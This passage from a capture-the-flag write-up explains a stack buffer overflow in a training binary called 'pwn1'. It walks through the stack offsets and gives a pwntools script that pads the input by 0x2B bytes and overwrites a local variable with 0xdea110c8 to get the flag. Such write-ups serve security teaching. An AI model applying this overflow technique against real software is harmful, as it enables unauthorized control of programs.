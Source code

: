 This is where the overflow comes in. 

When you look at the header of the main function, we see where both variables are stored in memory. "local_43", the variable which records our input, is at [-0x43] in the stack, and the variable we need to change is at [-0x18]. 


<img src="https://user-images.githubusercontent.com/101567957/188269626-038c7d8c-b85e-4a74-aaa6-be5f908d4791.png" width="900">


The idea here is that if we provide an input which is large enough to fill the space between the two variables, that is  0x43 - 0x18, which equals to 0x2B, we will be able to get to the ```local_18``` variable and write into it. 

Fortunately for us, we can do just that with a short piece of Python code. It uses the pwntools Python module. You can find the entire file in this repo.

```
# import pwntools 
from pwn import *

# creates a process which runs the pwn1 executable
p = process('./pwn1')

# creates the payload
payload = b""
# pads the payload by 0x2b to get to the local_18 variable
payload += b"0"*0x2b
# at the location of the local_18 variable rewrites the variable to 0xdea110c8 (in the form of a byte string)
payload += p32(0xdea110c8)

# sends the correct answers to the process with the two first answers
p.sendline(b"Sir Lancelot of Camelot")
p.sendline(b"To seek the Holy Grail.")

# sends the payload which reqrites the local_18 variable
p.sendline(payload)

# allows interaction with the terminal
p.interactive()
```
The key part is creating the payload where we add 0x2B worth of zeroes followed by the value of 0xdea110c8 in little-endian. This payload is then sent as an input for the local_43 variable which then spills into the local_18 with just the right value and gets us the flag.
